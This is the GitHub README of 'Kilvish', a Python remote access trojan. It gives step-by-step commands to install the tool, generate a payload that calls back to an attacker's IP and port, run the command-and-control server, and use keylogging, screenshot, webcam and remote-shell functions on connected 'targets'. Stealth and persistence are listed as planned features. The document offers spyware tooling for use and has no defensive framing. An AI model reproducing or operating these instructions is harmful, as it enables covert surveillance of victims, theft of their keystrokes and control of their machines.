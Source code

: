 <h1 align="center"> 
    <img src="https://github.com/siddhant385/Kilvish/blob/master/resources/kilvish.jpg" alt="KILVISH" /> <br>    
    KILVISH
</h1>
<p align="center">
    <a href="#" target="_blank"><img src="https://img.shields.io/badge/platform-cross-important" alt="platform: cross" /></a>
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/siddhant385/Kilvish/releases" target="_blank"><img src="https://img.shields.io/badge/version-v1.0-blue.svg?logo=moo" alt="Release: v1.0" /></a>
    <a href="https://opensource.org/licenses/MIT" target="_blank"><img src="https://img.shields.io/badge/license-MIT-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> A Cross Platform multifunctional (Windows/Linux/Mac) RAT.</h4>

<h6 align="center"><img src="https://github.com/siddhant385/Kilvish/blob/master/resources/1.png"></h6>

## Getting Started
### Description
A cross platform RAT written in pure Python. The RAT accept commands alongside arguments to either perform as the server who accepts connections or to perform as the client/target who establish connections to the server. The **generate** command uses the module **pyinstaller** to compile the actual payload code. So, in order to generate payload file for your respective platform, you need to be on that platform while generating the file. Moreover, you can directly get the source file as well. 

### Features
<ul>
    <li>Built-in Shell for command execution</li>
    <li>Dumping System Information including drives and rams</li>
    <li>Screenshot module. Captures screenshot of client screen.</li>
    <li>Webcam module. Captures Webcam of client screen.(Thanks to Bainky/RAT)</li>
    <li>Connection Loop (Will continue on connecting to server)</li>
    <li>Currently, it uses BASE64 encoding for connection. </li>
    <li>Encrypts the payload using AES Encryption (Thanks to pushpendraindia)</li>
    <li>Pure Python</li>
    <li>Cross Platform. (Tested on Linux. Errors are accepted)</li>
    <li>Source File included for testing</li>
    <li>Python 3</li>
</ul>

### To be expected in future
<ul>
    <li>Stealth Execution</li>
    <li>Persistence</li>
    <li>Encryption</li>
    <li>Storing Sessions from last attempt</li>
    <li>Pushing Notifications when a client connects</li>
</ul>

### Installation
The tool is tested on **Windows 10** with **Python 3.9**. 
Follow the steps for installation:
```
$ git clone https://github.com/siddhant385/Kilvish.git
$ cd Kilvish/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>
The source file is to remain same on all platforms. So, you can generate it on one platform and use it on the other. Getting the source file: 

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/payload.py --source
```

The compiled version has to generated on the respective platform. For example, you can't generate an .exe file on Linux. You specifically have to be on Windows. The tool is still under testing. So, all kinds of errors are accepted. Make sure to open an issue though. Generating the Compiled Version for Linux:

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/filer
```

<h6 align="center"><img src="https://github.com/siddhant385/Kilvish/blob/master/resources/2.png"></h6>

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 kilvish.py bind --address 0.0.0.0 --port 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="https://github.com/siddhant385/Kilvish/blob/master/resources/3.png"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

<h6 align="center"><img src="https://github.com/siddhant385/Kilvish/blob/master/resources/4.png"></h6>

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Support


### ORIGINAL CREATOR
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407
